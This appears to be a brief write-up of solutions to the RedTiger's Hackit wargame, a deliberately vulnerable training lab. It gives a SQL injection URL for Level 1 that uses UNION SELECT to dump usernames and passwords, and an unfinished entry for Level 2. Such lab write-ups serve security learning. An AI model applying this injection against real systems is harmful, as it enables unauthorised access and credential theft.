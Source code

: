 RedTigers-Hackit
================
https://redtiger.labs.overthewire.org/

1. Level 1
```
https://redtiger.labs.overthewire.org/level1.php?cat=1%20union%20select%201,2,username,password%20from%20level1_users
```
You made it dude!

2. 
